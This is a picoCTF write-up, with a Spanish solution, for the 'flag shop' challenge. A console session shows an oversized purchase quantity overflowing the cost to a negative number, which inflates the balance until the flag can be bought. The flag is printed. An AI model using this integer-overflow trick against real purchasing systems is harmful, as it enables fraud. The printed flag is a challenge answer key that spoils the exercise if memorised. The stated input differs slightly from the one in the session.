 #### Description

There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/dd28f0987f28c894f35d5d48564c3402/store.c). Connect with `nc jupiter.challenges.picoctf.org 44566`.

#### Hints 
- Two's compliment can do some weird things when numbers get really big!

## Solución
- Cuando vatamos a insertar el valor que queremos comprar, metemos un valor grande para que el programa no pueda leerlo y obtener un numero negarivo que nos daría más dinero para poder comprar nuestra bandera, en este caso el valor a instertar es: 10000000000000000

```

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1



 Balance: 1100 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
100000000000000000

The final cost is: -651689984

Your current balance after transaction: 651691084

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one
1
YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection


```
